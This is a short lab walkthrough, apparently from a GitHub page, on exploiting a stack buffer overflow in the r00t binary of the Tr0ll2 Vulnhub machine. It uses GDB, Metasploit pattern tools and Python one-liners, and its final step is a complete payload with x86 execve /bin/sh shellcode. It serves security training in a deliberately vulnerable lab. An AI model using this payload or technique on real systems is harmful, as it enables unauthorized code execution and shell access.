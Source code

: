 ## How to do bufferoverflow for a Linux binary in GDB () ?
### Tested for Trollv2 Vulnhub - Dated 22 Dec 2020


01. Identify the overflow by giving some malicious input to binary; should see something like "SEGMENTATION FAULT" etc. 

02. Python can help in generating * no of characters e.g. python -c 'print("A"*500)' can generate 500 A's.

03. Open the binary name in GDB by running command: gdb <binary>

04. Next inside the GBD type command: r $(python -c 'print"A"*300') 

05. Above command should crash the program, and GBD will show "Program received signal SIGSEGV, Segmentation fault." 

06. Create a unique pattern with MSF by using command: msf-pattern_create -l 300

07. Copy that unique pattern and again in gdb type: r <MSF generated unique pattern>

08. Above command will again crash the program, type command: info registers and note down the value of EIP. Lets assume EIP value is 0x6a413969.

09. Again use MSF to find the exact offset point by running command: msf-pattern_offset -q 6a413969. The output would be some number e.g. 268.

10. To check we have control of EIP, type following command inside the GDB: $(python -c 'print "A"*268 + "B"*4'). And we should see EIP being filled with BBBB or 42 42 42 42.

11. Exit GDB and re-open it with following command: env - gdb r00t

12. Inside GBD type command: show env, it will show output something e.g. LINES=27 COLUMNS=120.

13. Type command: unset env LINES

14. Type command: unset env COLUMNS

15. Type command: $(python -c 'print "A"*268 + "BBBB"')

16. No need to notedown the JMP address, simply notedown the value of ESP which in this case is 0xbffffd30

17. Inside GBD type command: $(python -c 'print "A"*268 + "\x30\xfd\xff\xbf" + "\x90"*16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

18. You should see SHELL. Thats it.

Resoruced used:
https://www.doyler.net/security-not-included/tr0ll-2-walkthrough-you-gotta-pay-the-troll-toll
https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it/17775966#17775966
http://shell-storm.org/shellcode/files/shellcode-827.php
